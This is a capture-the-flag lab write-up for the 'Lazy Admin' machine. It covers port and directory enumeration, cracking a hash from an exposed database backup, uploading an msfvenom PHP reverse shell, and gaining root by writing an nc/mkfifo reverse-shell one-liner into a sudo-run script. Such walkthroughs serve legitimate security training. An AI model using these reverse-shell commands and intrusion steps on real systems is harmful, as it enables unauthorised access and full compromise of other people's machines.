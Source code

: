 # Lazy Admin

## Reconnaissance
Let's start the enumeration with scanning the ports, which we can do with nmap. This can be done with the command nmap -A -T4 <ip>.

<insert image>

As we can see there are two ports open, port 22 for ssh and port 80 for http. The SSH version running is OpenSSH 7.2p2 and the server is an Apache server running on ubuntu. For further enumeration we can use ffuf with the command ```ffuf -w /usr/share/wordlists/dirb/big.txt -u "http://<ip>/FUZZ"```.

<insert image>

```/content``` seems interesting, so let's check it out. Hmm, that did not give us much.

<insert image>

Let's try fuzzing even deeper, we can do this with the command ```ffuf -w /usr/share/wordlists/dirb/big.txt -u "http://<ip>/content/FUZZ"```

<insert image>


/as seems interesting, so lets check it out, oh an admin panel. We could try to brute-force it, but let's continue searching to see if we can find something interesting.

<insert image>

We can find an backup of an mysql database at ````<ip>/content/inc/mysql_backup```, lets try downloading it and opening it.

<insert image>

Here we can find both a username and an hashed password, maybe if we can crack the password we can use it to login to the admin panel.

<insert image>

I used ```https://crackstation.net/``` to crack the password.

<insert image>

Now we can log in to the admin panel. 

<insert image>

## Getting a shell
Now that we have gotten into the admin panel, it's time to look for a way to get a shell. After looking around on the admin panel for a litte while I found an upload button, lets see if we can upload a reverse shell through the upload form. 

<insert image>

We can create an reverse shell with the command msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php. That worked. Now we can go to ```<ip>/content/attachment/shell.php5``` and run the file while we try to catch the reverse shell. We can catch the reverse shell with metasploit (msfconsole). I used the payload php/meterpreter_reverse_tcp. Set the options LHOST <your ip> and LPORT <choosen port>.

<insert image>

## Privilege Escalation
Now that we have gotten into the computer it's time for privilege escalation, so let's do some enumeration. sudo -l shows us that we can use ```/user/bin/perl /home/itguy/backup.pl``` as root.

<insert image>

Let's check out the ```/home/itguy/backup.pl`` file.

<insert image>

Ok, now lets check out the ```/etc/copy.sh``` file.

<insert image>

It seems like most of the job is done for us. Let's change tha ip to our ip. We can do this with ```echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your_ip> 5554 >/tmp/f" > /etc/copy.sh```


We can now try to catch it with netcat on our computer with ```nc -nvlp 5554``` and then run the file with ```sudo /usr/bin/perl /home/itguy/backup.pl```

<insert image>

That worked, we have now root access on the machine.